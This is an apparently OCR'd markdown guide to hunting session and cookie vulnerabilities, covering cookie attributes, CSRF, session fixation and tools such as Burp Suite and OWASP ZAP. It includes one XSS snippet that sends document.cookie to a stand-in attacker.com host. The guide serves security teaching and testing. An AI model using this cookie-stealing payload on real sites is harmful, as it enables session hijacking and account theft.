 #### Cookie-based Vulnerabilities

- **Weak Cookie Attributes**:
  - Cookies without `HttpOnly` can be accessed by JavaScript and are vulnerable to XSS.
  - Cookies without `Secure` can be sent over HTTP, making them vulnerable to MITM attacks.
  
- **Cross-Site Request Forgery (CSRF)**:
  - An attacker tricks the victim into making a request that uses the victim's credentials.

```javascript
// Vulnerable code: XSS stealing a session cookie
<script>
    document.write('<img src="http://attacker.com/steal?cookie=' + document.cookie + '" />');
</script>
```

### Techniques for Hunting Vulnerabilities in Sessions & Cookies

#### Manual Testing

- **Session Hijacking via XSS**:
  - Inject payloads that attempt to steal the `document.cookie`.
  
- **Session Fixation**:
  - Check if the session ID changes after login.
  
- **Insecure Cookie Attributes**:
  - Look for cookies without `HttpOnly`, `Secure`, or `SameSite` attributes.

#### Automated Tools

- **Burp Suite**:
  - Use the "Repeater" to test session handling.
  - Use "Scanner" to check for weak cookie attributes and session fixation vulnerabilities.
  
- **OWASP ZAP**:
  - Automated scanning for session-related vulnerabilities like XSS, CSRF, and insecure cookies.

#### Tools for Hunting Session and Cookie Vulnerabilities

- **Burp Suite**: An industry-standard tool for testing web applications, including session management issues.
- **OWASP ZAP**: Open-source alternative for automated security scanning.
- **Wireshark**: Useful for capturing network traffic and identifying exposed session cookies in unencrypted traffic.
- **Fiddler**: Captures HTTP traffic, useful for debugging session and cookie behavior.

#### Command-line Techniques

- **cURL**: Test session behavior and cookie attributes using `cURL`.

```bash
# Example: Fetching cookies with cURL
curl -v -c cookies.txt https://example.com
```
